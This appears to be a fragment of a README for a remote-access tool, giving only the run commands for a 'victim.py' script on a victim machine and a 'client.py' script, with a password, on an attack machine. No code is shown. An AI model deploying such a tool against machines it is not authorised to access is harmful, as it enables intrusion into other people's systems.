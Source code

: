 Command to run on victim machine:
```bash
python victim.py <client ip>
```

Command to run on attack/client machine:
```bash
python client.py <victim ip> <password>
```
